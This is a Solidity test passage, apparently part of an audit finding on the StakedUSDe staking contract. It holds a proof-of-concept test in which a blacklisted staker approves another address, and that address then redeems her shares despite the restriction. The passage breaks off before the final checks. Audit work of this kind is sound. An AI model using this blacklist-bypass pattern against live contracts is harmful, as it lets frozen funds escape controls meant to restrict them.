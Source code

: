 ```solidity
    owner = makeAddr("owner");

    usdeToken.setMinter(address(this));

    vm.startPrank(owner);
    stakedUSDe = new StakedUSDe(IUSDe(address(usdeToken)), makeAddr('rewarder'), owner);
    vm.stopPrank();

    FULL_RESTRICTED_STAKER_ROLE = keccak256("FULL_RESTRICTED_STAKER_ROLE");
    SOFT_RESTRICTED_STAKER_ROLE = keccak256("SOFT_RESTRICTED_STAKER_ROLE");
    DEFAULT_ADMIN_ROLE = 0x00;
    BLACKLIST_MANAGER_ROLE = keccak256("BLACKLIST_MANAGER_ROLE");
  }

  function _mintApproveDeposit(address staker, uint256 amount, bool expectRevert) internal {
    usdeToken.mint(staker, amount);

    vm.startPrank(staker);
    usdeToken.approve(address(stakedUSDe), amount);

    uint256 sharesBefore = stakedUSDe.balanceOf(staker);
    if (expectRevert) {
      vm.expectRevert(IStakedUSDe.OperationNotAllowed.selector);
    } else {
      vm.expectEmit(true, true, true, false);
      emit Deposit(staker, staker, amount, amount);
    }
    stakedUSDe.deposit(amount, staker);
    uint256 sharesAfter = stakedUSDe.balanceOf(staker);
    if (expectRevert) {
      assertEq(sharesAfter, sharesBefore);
    } else {
      assertApproxEqAbs(sharesAfter - sharesBefore, amount, 1);
    }
    vm.stopPrank();
  }

 
    function test_fullBlacklist_withdraw_pass() public {
    _mintApproveDeposit(alice, _amount, false);

    vm.startPrank(owner);
    stakedUSDe.grantRole(FULL_RESTRICTED_STAKER_ROLE, alice);
    vm.stopPrank();
    //@audit-issue assert that alice is blacklisted
   bool isBlacklisted = stakedUSDe.hasRole(FULL_RESTRICTED_STAKER_ROLE, alice);
   assertEq(isBlacklisted, true);
  //@audit-issue The staked balance of Alice
    uint256 balAliceBefore = stakedUSDe.balanceOf(alice); 
    //@audit-issue The usde balance of address 56
    uint256 bal56Before = usdeToken.balanceOf(address(56));
    vm.startPrank(alice);
    stakedUSDe.approve(address(56), _amount);
    vm.stopPrank();
    
    //@audit-issue address 56 receives approval and can unstake usde for Alice after a blacklist
    vm.startPrank(address(56));
    stakedUSDe.redeem(_amount, address(56), alice);
    vm.stopPrank();
      //@audit-issue The staked balance of Alice
     uint256 balAliceAfter = stakedUSDe.balanceOf(alice);
     //@audit-issue The usde balance of address 56
     uint256 bal56After = usdeToken.balanceOf(address(56));
```